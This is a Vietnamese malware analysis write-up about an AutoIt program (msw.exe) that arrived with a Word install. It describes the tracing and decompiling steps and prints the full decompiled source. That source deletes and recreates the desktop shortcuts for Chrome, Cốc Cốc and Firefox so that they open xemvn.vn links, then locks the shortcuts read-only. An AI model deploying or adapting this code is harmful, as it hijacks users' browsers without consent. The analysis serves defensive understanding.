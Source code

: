 # Script tự động tạo shortcut trình duyệt
> Dính script này khi cài word có sẵn, khi khởi động máy shortcut các trình duyệt có trong máy sẽ tự động được tạo ngoài màn hình. Các shortcut này có các params phía sau để tự động mở các đường dẫn

## Nội dung
* [Tình trạng](#tinh-trang)
* [Đi theo dấu chân](#di-theo-dau-chan)
* [Phân tích bằng Detect It Easy và decode](#phan-tich-bang-detect-it-easy-va-decode)
* [Source code](#source-code)

## Tình trạng
Khi khởi động lại máy các shortcut của trình duyệt sẽ tự động được tạo ngoài màn hình, nhấp vào các shortcut này trình duyệt sẽ tự động mở các đường dẫn mà attacker đã thêm vào script
Khi xem properties của các shortcut này thì thấy có các params phía sau là đường dẫn các trang web. Đây là một thủ thuật rất hay.

![chromelnk](./images/chromelnk.PNG)

## Đi theo dấu chân
Vì các shortcut sẽ tự động được tạo mỗi khi khởi động lại máy nên nghi ngờ nhất là các chương trình nằm trong mục startup của windows.
Ta sẽ dò phần startup này trong task manager.

![task manager](./images/taskmanager.PNG)

Trong task manager nhận thấy có msw.exe là đáng nghi ngờ nhất nên sẽ mở nó thử.
Sau khi xóa hết các shortcut và chạy thủ công file msw.exe thì các shortcut tự động được tạo ra màn hình nên chắc chắn 100% là nó là cái ta đang tìm.

## Phân tích bằng Detect It Easy và decode
Dùng Detect It Easy thì thấy nó được viết bằng AutoIt.

![Detect It Easy](./images/detectiteasy.PNG)

Với AutoIt ta có tool để decode là exe2auto.

![Dùng exe2auto để decode](./images/exe2auto.PNG)

## Source code
Có thể cài [AutoIt](https://www.autoitscript.com/site/) để thử
```au3
    $file_name_1 = "*Chrome*"
    $file_name_2 = "*Cốc*"
    $file_name_3 = "*Firefox*"
    $file_name_4 = "*Coc*"
    $file_name_5 = "*browser*"
    FileSetAttrib(@DesktopDir & "\" & $file_name_1 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_1 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_1 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_1 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_2 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_2 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_2 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_2 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_3 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_3 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_3 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_3 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_4 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_4 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_4 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_4 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_5 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_5 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_5 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_5 & ".lnk")
    Sleep(250)
    ifileexists_chrome()
    ifileexists_coccoc()
    ifileexists_firefox()

    Func ifileexists_chrome()
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files\Google\Chrome\Application\chrome.exe")
        If $ifileexists Then
            example_chrome()
        EndIf
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files (x86)\Google\Chrome\Application\chrome.exe")
        If $ifileexists Then
            example_chrome_x86()
        EndIf
    EndFunc

    Func ifileexists_coccoc()
        Local $ifileexists = FileExists(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe")
        If $ifileexists Then
            example_coccoc()
        EndIf
        Local $ifileexists = FileExists(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser_proxy.exe")
        If $ifileexists Then
            example_coccoc_proxy()
        EndIf
    EndFunc

    Func ifileexists_firefox()
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files\Mozilla Firefox\firefox.exe")
        If $ifileexists Then
            example_firefox()
        EndIf
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files (x86)\Mozilla Firefox\firefox.exe")
        If $ifileexists Then
            example_firefox_x86()
        EndIf
    EndFunc

    Func example_chrome()
        Local Const $sfilepath = @DesktopDir & "\Google Chrome.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files\Google\Chrome\Application\chrome.exe", $sfilepath, @HomeDrive & "\Program Files\Google\Chrome\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Google Chrome", @HomeDrive & "\Program Files\Google\Chrome\Application\chrome.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_chrome_x86()
        Local Const $sfilepath = @DesktopDir & "\Google Chrome.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files (x86)\Google\Chrome\Application\chrome.exe", $sfilepath, @HomeDrive & "\Program Files (x86)\Google\Chrome\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Google Chrome", @HomeDrive & "\Program Files (x86)\Google\Chrome\Application\chrome.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_coccoc()
        Local Const $sfilepath = @DesktopDir & "\Cốc Cốc.lnk"
        FileCreateShortcut(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe", $sfilepath, @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Cốc Cốc", @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_coccoc_proxy()
        Local Const $sfilepath = @DesktopDir & "\Cốc Cốc.lnk"
        FileCreateShortcut(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser_proxy.exe", $sfilepath, @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Cốc Cốc", @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_firefox()
        Local Const $sfilepath = @DesktopDir & "\Firefox.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files\Mozilla Firefox\firefox.exe", $sfilepath, @HomeDrive & "\Program Files\Mozilla Firefox", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Firefox", @HomeDrive & "\Program Files\Mozilla Firefox\firefox.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_firefox_x86()
        Local Const $sfilepath = @DesktopDir & "\Firefox.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files (x86)\Mozilla Firefox\firefox.exe", $sfilepath, @HomeDrive & "\Program Files (x86)\Mozilla Firefox", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Firefox", @HomeDrive & "\Program Files (x86)\Mozilla Firefox\firefox.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Sleep(50)
    FileSetAttrib(@DesktopDir & "\Google Chrome.lnk", "+R")
    Sleep(50)
    FileSetAttrib(@DesktopDir & "\Cốc Cốc.lnk", "+R")
    Sleep(50)
    FileSetAttrib(@DesktopDir & "\Firefox.lnk", "+R")
```

## Tác giả
Created by mita949dev with :heartpulse:!
